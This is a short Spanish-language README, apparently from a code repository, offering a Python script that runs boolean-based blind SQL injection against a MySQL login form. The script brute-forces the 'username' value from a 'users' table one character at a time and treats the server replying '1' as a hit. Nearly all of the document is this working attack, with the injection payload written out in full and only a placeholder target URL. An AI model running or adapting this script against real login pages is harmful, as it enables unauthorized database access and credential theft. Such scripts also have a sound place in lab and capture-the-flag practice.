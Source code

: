 # SQL Injection Script

Con el siguiente script de `python` podremos determinar el `username` del usuario en la tabla llamada `users` mediante `SQL Injection` con el tipo de base de datos `mysql` y la tecnica llamada `SQLI_Conditional`...

Para que funcione la barra de decoracion que se esta importando en el script hacemos lo siguiente...

```shell
pip install pwn
```

Una vez hecho eso, ejecutamos el script...

```python
#!/usr/bin/python3

from pwn import *
import requests, pdb, string, signal, sys, time

def def_handler(sig, frame):
        print("\n\n[!] Saliendo...\n")
        sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

# Variables globales
login_url = "http://<IP>/<LOGIN>"
characters = string.ascii_lowercase + "-_"

def makeRequest():

        p1 = log.progress("Fuerza bruta")
        p1.status("Iniciando proceso de fuerza bruta")

        time.sleep(2)

        username = ""

        p2 = log.progress("Usuario")

        for position in range(1, 20):   #El rango de caracteres que pueda tener el usuario
                for character in characters:
                        post_data = {
                                'username' : "' or (select substring(username, %d,1) from users limit 1)='%s'-- -" % (position, character),     #Donde pone username de esta linea es el contenido de la tabla que en este caso se llama username que queremos descubrir ya que por defecto la tabla se llama asi, y la otra por defecto para saber en nombre de usuario es name la cual tambien tendriamos que probar, si no supieramos nada de esto, tendriamos que empezar explotando el nombre de la base de datos...
                                'password' : 'test'
                        }

                        p1.status(post_data['username'])

                        r = requests.post(login_url, data=post_data)

                        if r.text == "1":       #Parametro de la comparacion para saber si es True o False

                                username += character
                                p2.status(username)
                                break
```